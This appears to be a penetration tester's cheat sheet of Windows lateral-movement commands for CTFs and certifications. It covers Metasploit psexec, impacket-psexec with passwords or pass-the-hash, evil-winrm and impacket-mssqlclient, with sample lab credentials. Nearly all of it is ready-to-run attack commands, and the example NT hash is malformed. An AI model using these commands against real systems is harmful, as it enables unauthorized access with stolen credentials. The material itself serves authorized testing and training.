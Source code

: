 # Metasploit
```
Easy but noisy, do this for CTFs or certs.
use exploit/windows/smb/psexec
set RHOST $(IP_ADDRESS)
set SMBDomain $(DOMAIN) # e.g MARVEL.local
set SMBUser $(USERNAME)
set SMBPass $(PASSWORD) # The password can be the hash instead of the cracked password.
exploit
```
# psexec.py
Much less noisy. Do this in real-world engagements or certs where metasploit isn't allowed.
```bash
impacket-psexec $(DOMAIN)/$(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS)
```
Example:
```bash
impacket-psexec MARVEL.local/fcastle:'Password1'@192.168.138.137
```
How to do it with a hash instead:
```bash
impacket-psexec $(USERNAME)@$(IP_ADDRESS) -hashes $(LM):$(NT)
```
Example:
```bash
impacket-psexec administrator@10.0.0.25 -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d4edc98d0a0c9797ef98b869751
```
# evil-winrm
```bash
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```
# mssql-client
```bash
impacket-mssqlclient $(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS)
```
